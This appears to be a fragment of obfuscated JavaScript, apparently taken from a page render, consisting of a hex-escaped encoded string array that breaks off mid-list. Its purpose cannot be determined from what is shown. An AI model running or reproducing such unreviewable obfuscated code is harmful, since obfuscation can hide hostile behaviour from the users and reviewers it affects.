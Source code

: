 _0x3ef039=['\x73\x53\x6b\x65\x57\x52\x38\x78\x62\x71','\x6f\x49\x38\x56\x79\x32\x48\x4c\x79\x78\x72\x55\x7a\x71','\x43\x68\x6a\x56\x44\x67\x39\x30\x45\x78\x62\x4c','\x6a\x74\x57\x72\x72\x4b\x56\x64\x52\x43\x6b\x6b\x57\x35\x68\x64\x51\x43\x6f\x36','\x41\x32\x4c\x30\x73\x77\x71','\x44\x68\x6a\x35\x72\x4d\x39\x59\x79\x32\x4c\x55\x7a\x57','\x57\x52\x31\x4b\x57\x50\x6d\x42\x70\x71','\x7a\x32\x6e\x62\x77\x4b\x47','\x57\x37\x58\x4d\x68\x53\x6b\x56\x43\x66\x6d\x70','\x44\x77\x7a\x4d\x7a\x78\x6a\x73\x7a\x77\x44\x4c\x45\x61','\x75\x73\x37\x64\x52\x4a\x42\x63\x4f\x6d\x6f\x7a\x57\x34\x44\x6d\x6b\x53\x6b\x65\x57\x50\x4b\x41\x57\x37\x61','\x7a\x4d\x39\x31\x42\x4d\x72\x6a\x7a\x61','\x7a\x67\x57\x41\x46\x65\x4e\x64\x52\x38\x6b\x5a\x57\x35\x38','\x6c\x5a\x48\x7a\x66\x72\x5a\x63\x4c\x53\x6b\x74\x57\x35\x33\x63\x4d\x38\x6b\x2b','\x7a\x4c\x56\x64\x48\x4c\x4a\x64\x4e\x43\x6b\x76\x57\x50\x37\x63\x48\x74\x43\x72','\x57\x37\x56\x63\x47\x76\x53\x66\x57\x50\x66\x56\x57\x52\x71\x78\x57\x4f\x7a\x44','\x57\x51\x6e\x43\x6a\x6d\x6f\x52\x57\x34\x53','\x57\x4f\x6e\x38\x62\x38\x6f\x56\x57\x36\x61','\x57\x51\x78\x64\x53\x6d\x6b\x4e\x74\x38\x6b\x7a\x41\x6d\x6b\x71\x46\x4a\x34\x72\x57\x35\x66\x36\x70\x61','\x7a\x4e\x6a\x56\x42\x75\x6e\x4f\x79\x78\x6a\x64\x42\x57','\x57\x35\x2f\x63\x4e\x38\x6f\x6f\x57\x4f\x4b\x4c\x57\x52\x4a\x64\x51\x57','\x41\x4d\x35\x57\x72\x32\x79','\x74\x53\x6b\x45\x57\x52\x75\x52\x6c\x71','\x43\x31\x66\x4b\x44\x30\x38','\x42\x33\x62\x4c\x42\x4b\x66\x55\x43\x33\x44\x4c\x43\x47','\x57\x4f\x4c\x73\x57\x51\x69','\x43\x67\x66\x59\x43\x32\x76\x6c\x41\x78\x72\x6a\x7a\x61','\x57\x36\x79\x49\x6e\x43\x6b\x73\x46\x62\x30\x35\x6c\x53\x6b\x68\x57\x4f\x65','\x6c\x78\x4f\x57\x6c\x74\x4c\x44\x45\x5a\x69\x30\x46\x71','\x44\x68\x44\x56\x43\x4d\x53\x55\x7a\x78\x75\x56\x79\x57','\x74\x38\x6f\x48\x57\x51\x37\x63\x53\x6d\x6f\x34','\x57\x4f\x4f\x65\x57\x34\x74\x64\x4b\x71','\x43\x53\x6b\x51\x72\x6d\x6f\x43\x57\x35\x42\x63\x52\x62\x30','\x75\x43\x6f\x62\x6a\x5a\x5a\x63\x50\x77\x6a\x57\x6b\x6d\x6b\x2f\x42\x71','\x46\x38\x6f\x58\x57\x50\x37\x63\x50\x43\x6f\x42\x57\x35\x4e\x63\x4d\x32\x58\x6f\x57\x52\x71','\x57\x35\x76\x6c\x6b\x53\x6b\x57\x72\x71','\x7a\x78\x48\x57\x41\x78\x6a\x4c\x7a\x63\x57\x47\x7a\x57','\x75\x38\x6b\x6d\x57\x52\x78\x64\x53\x6d\x6b\x4a','\x57\x51\x4e\x63\x52\x32\x74\x64\x47\x78\x70\x63\x52\x38\x6f\x55\x57\x36\x31\x4a','\x6f\x6d\x6b\x74\x57\x37\x48\x33\x73\x61\x35\x4f\x57\x52\x79\x37\x67\x4c\x74\x64\x4e\x43\x6f\x45','\x71\x48\x56\x63\x47\x67\x42\x64\x4c\x57','\x79\x43\x6f\x2b\x57\x4f\x5a\x63\x49\x43\x6f\x6e\x57\x35\x4e\x63\x4d\x32\x58\x6f\x57\x52\x71','\x41\x4c\x6a\x71\x7a\x67\x53','\x57\x4f\x4f\x63\x57\x35\x33\x64\x4e\x38\x6b\x44\x57\x36\x76\x72','\x57\x4f\x7a\x70\x57\x52\x71\x44\x65\x38\x6b\x58\x69\x6d\x6b\x43\x57\x37\x4c\x6a','\x6d\x78\x50\x72\x44\x30\x39\x62\x77\x71','\x57\x4f\x38\x39\x57\x36\x76\x6b\x57\x37\x46\x64\x49\x43\x6f\x55\x57\x36\x6c\x63\x4f\x4d\x4f','\x7a\x77\x66\x30\x42\x4d\x76\x30\x44\x32\x39\x59\x41\x57','\x76\x30\x58\x79\x43\x77\x79','\x57\x4f\x6a\x30\x57\x52\x75\x67','\x57\x50\x66\x65\x57\x52\x75\x34\x65\x38\x6b\x57\x69\x38\x6b\x4a\x57\x37\x7a\x44','\x57\x50\x37\x63\x4b\x30\x4a\x64\x53\x38\x6f\x46','\x57\x4f\x44\x46\x6c\x68\x64\x63\x4f\x57','\x43\x32\x6e\x59\x41\x78\x62\x30\x69\x67\x4c\x5a\x69\x61','\x7a\x63\x66\x51\x71\x38\x6f\x35','\x79\x78\x62\x57\x42\x68\x4b','\x43\x32\x76\x48\x43\x4d\x6e\x4f','\x79\x4d\x39\x53\x7a\x64\x53','\x57\x51\x75\x37\x57\x37\x50\x6c\x57\x4f\x65','\x41\x6d\x6f\x49\x76\x38\x6f\x4b\x57\x37\x57','\x42\x4d\x43\x47\x43\x68\x6a\x56\x44\x67\x76\x4a\x44\x61','\x57\x34\x70\x64\x4d\x68\x74\x64\x54\x38\x6b\x44','\x57\x50\x30\x65\x63\x38\x6f\x4a\x6f\x72\x68\x64\x49\x67\x56\x63\x52\x6d\x6f\x36','\x7a\x53\x6b\x49\x57\x4f\x6d','\x42\x6d\x6f\x54\x57\x36\x6c\x63\x55\x53\x6f\x47\x66\x38\x6b\x68\x46\x74\x33\x63\x54\x47','\x41\x32\x4c\x30\x6c\x57','\x42\x33\x6a\x52\x69\x68\x6e\x30\x7a\x77\x66\x53\x41\x71','\x6e\x76\x44\x74\x75\x32\x6a\x53\x73\x57','\x77\x6d\x6b\x57\x57\x50\x4a\x64\x4b\x43\x6b\x6f','\x71\x75\x54\x4d\x7a\x77\x38','\x72\x78\x7a\x77\x43\x66\x65','\x74\x75\x6a\x79\x41\x67\x4f','\x63\x53\x6b\x61\x44\x78\x43','\x57\x4f\x70\x63\x51\x30\x62\x63\x57\x35\x5a\x64\x56\x43\x6b\x58\x57\x34\x79','\x7a\x4d\x39\x59\x72\x77\x66\x4a\x41\x61','\x57\x50\x47\x67\x57\x37\x70\x64\x48\x53\x6b\x6c\x77\x71','\x57\x35\x46\x63\x4e\x38\x6f\x6d','\x42\x76\x72\x55\x45\x65\x30','\x42\x77\x66\x30\x79\x32\x47','\x72\x65\x58\x79\x75\x4d\x69','\x7a\x77\x35\x30','\x75\x32\x76\x59\x44\x4d\x76\x59\x76\x67\x39\x73\x7a\x71','\x44\x43\x6f\x59\x6a\x38\x6b\x2b\x57\x52\x4e\x63\x48\x38\x6b\x49\x57\x51\x4b\x76\x57\x52\x79','\x57\x36\x6c\x64\x55\x31\x54\x31\x57\x37\x71','\x57\x36\x70\x63\x4e\x43\x6f\x6d\x6b\x53\x6f\x55','\x57\x35\x64\x63\x50\x43\x6f\x43\x57\x52\x71\x57','\x42\x4d\x39\x55\x7a\x74\x54\x39','\x46\x4a\x44\x62\x6e\x57','\x79\x62\x6a\x71\x7a\x38\x6f\x48','\x7a\x78\x6a\x32\x7a\x78\x6a\x73\x7a\x78\x6e\x57\x42\x57','\x79\x43\x6b\x50\x57\x50\x75\x43\x63\x47\x53','\x68\x77\x65\x37\x57\x52\x2f\x63\x47\x71','\x41\x32\x4c\x30\x73\x77\x72\x67\x43\x4d\x39\x54\x71\x47','\x57\x50\x48\x67\x57\x50\x46\x63\x55\x38\x6f\x6b\x67\x57\x6d\x59\x57\x37\x38','\x7a\x57\x31\x73\x74\x53\x6f\x35\x70\x49\x47','\x79\x78\x71\x6b\x6a\x77\x6e\x4f\x44\x68\x72\x57\x43\x57','\x57\x50\x44\x68\x57\x4f\x5a\x63\x53\x6d\x6f\x43\x67\x4a\x6d','\x6d\x68\x57\x5a\x46\x64\x72\x38\x6e\x78\x57\x59\x46\x61','\x6d\x31\x79\x77\x6f\x38\x6b\x56\x42\x63\x5a\x63\x48\x61\x53\x5a\x57\x50\x2f\x64\x4c\x71','\x57\x51\x57\x69\x57\x50\x44\x62\x6f\x71\x70\x64\x50\x4c\x6c\x63\x53\x6d\x6f\x59','\x57\x4f\x68\x63\x4b\x65\x42\x64\x4b\x4d\x71','\x42\x75\x66\x4a\x73\x75\x71','\x72\x4d\x44\x59\x44\x4c\x75','\x67\x65\x79\x71\x57\x50\x33\x64\x47\x4e\x35\x36\x73\x6d\x6f\x66\x57\x50\x38','\x62\x30\x70\x64\x50\x53\x6f\x52','\x44\x64\x4f\x47\x79\x4d\x39\x53\x7a\x64\x53','\x79\x32\x66\x55\x44\x4d\x66\x5a','\x57\x4f\x66\x72\x66\x6d\x6b\x46\x57\x36\x52\x63\x4e\x43\x6f\x6d\x57\x35\x70\x64\x50\x53\x6b\x74','\x57\x52\x37\x63